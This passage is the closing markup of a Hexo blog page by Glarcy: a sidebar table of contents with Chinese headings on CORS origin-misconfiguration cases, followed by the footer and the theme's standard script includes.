class="nav-number">3.1.1.</span> <span class="nav-text">可任意修改origin</span></a></li><li class="nav-item nav-level-5"><a class="nav-link" href="#可修改origin为null"><span class="nav-number">3.1.2.</span> <span class="nav-text">可修改origin为null</span></a></li><li class="nav-item nav-level-5"><a class="nav-link" href="#信任子域"><span class="nav-number">3.1.3.</span> <span class="nav-text">信任子域</span></a></li></ol></li></ol></li></ol></div>
            

          </div>
        </section>
      <!--/noindex-->
      

      

    </div>
  </aside>


        
      </div>
    </main>

    <footer id="footer" class="footer">
      <div class="footer-inner">
        <div class="copyright">&copy; <span itemprop="copyrightYear">2022</span>
  <span class="with-love">
    <i class="fa fa-user"></i>
  </span>
  <span class="author" itemprop="copyrightHolder">Glarcy</span>

  
</div>


  <div class="powered-by">Powered by <a class="theme-link" target="_blank" href="https://hexo.io">Hexo</a></div>


  <span class="post-meta-divider">|</span>


  <div class="theme-info">Theme &mdash; <a class="theme-link" target="_blank" href="https://github.com/iissnan/hexo-theme-next">NexT.Pisces</a> v5.1.4</div>


        


        
      </div>
    </footer>

    
      <div class="back-to-top">
        <i class="fa fa-arrow-up"></i>
        
      </div>
    

    

  </div>

  

<script type="text/javascript">
  if (Object.prototype.toString.call(window.Promise) !== '[object Function]') {
    window.Promise = null;
  }
</script>


  


  


  
  
    <script type="text/javascript" src="/lib/jquery/index.js?v=2.1.3"></script>
  

  
  
    <script type="text/javascript" src="/lib/fastclick/lib/fastclick.min.js?v=1.0.6"></script>
  

  
  
    <script type="text/javascript" src="/lib/jquery_lazyload/jquery.lazyload.js?v=1.9.7"></script>
  

  
  
    <script type="text/javascript" src="/lib/velocity/velocity.min.js?v=1.2.1"></script>
  

  
  
    <script type="text/javascript" src="/lib/velocity/velocity.ui.min.js?v=1.2.1"></script>
  

  
  
    <script type="text/javascript" src="/lib/fancybox/source/jquery.fancybox.pack.js?v=2.1.5"></script>
  

  
  
    <script type="text/javascript" src="/lib/canvas-nest/canvas-nest.min.js"></script>
  


  


  <script type="text/javascript" src="/js/src/utils.js?v=5.1.4"></script>

  <script type="text/javascript" src="/js/src/motion.js?v=5.1.4"></script>


  
  


  <script type="text/javascript" src="/js/src/affix.js?v=5.1.4"></script>

  <script type="text/javascript" src="/js/src/schemes/pisces.js?v=5.1.4"></script>


  
  <script type="text/javascript" src="/js/src/scrollspy.js?v=5.1.4"></script>
<script type="text/javascript" src="/js/src/post-details.js?v=5.1.4"></script>


  


  <script type="text/javascript" src="/js/src/bootstrap.js?v=5.1.4"></script>


  


  


	


  


  


  


  

  

  

  
  

  

  

  

</body>
</html>
